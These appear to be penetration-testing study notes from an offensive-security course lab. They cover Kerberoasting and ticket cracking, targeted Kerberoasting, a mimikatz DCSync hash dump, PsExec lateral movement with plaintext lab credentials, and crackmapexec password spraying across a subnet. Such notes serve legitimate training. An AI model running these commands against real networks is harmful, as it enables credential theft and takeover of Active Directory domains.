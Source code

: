 ```bash
/usr/share/kerberoast/tgsrepcrack.py wordlist.txt 2-40a50000-offsec@HTTP\~CorpWebServer.corp.com-CORP.COM.kirbi
#crack hash using kirbi2john.py
python3 kirbi2john.py /root/pen200/exercise/ad/sgl.kirbi
```

## Targeted Kerberoasting
### on Kali
- condition: we have GenericWrite or GenericAll permissions on another AD user account
- leveraging "GenericWrite or GenericAll" permissions, (1) reset the user's password but this may raise suspicion. or (2) set an SPN for the user.
- kerberoast the account **(same as normal kerberoast)**
- crack the password hash **(same as normal kerberoast)**

## DCSync Attack
- The DCSync attack consists of requesting a replication update with a domain controller and obtaining the password hashes of each account in Active Directory without ever logging into the domain controller.
```
./mimikatz.exe "lsadump::dcsync /user:Administrator"
```

# Lateral movement - try to use PsExec instead of CME as the remote shell will be more persistent
## Tool 1: PsExec (The tool for RCE, provide remote execution of processes on other systems through an interactive console.

Precondition:
- First, the user that authenticates to the target machine needs to be part of the Administrators local group - usually default
- Second, the ADMIN$ share must be available - usually default
- third, File and Printer Sharing has to be turned on. 

```bash
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

## PASS THE Password and see what other accounts can the password access

         crackmapexec <ip>/24 -u <user> -d <DOMAIN> -p <password>    
         crackmapexec <ip>/24 -u fcastle -d MARVEL.local -p <password>    

- Remote Access - impacket-psexec  
```
psexec.py marvel/fcastle:Password1@192.168.57.142 
```
        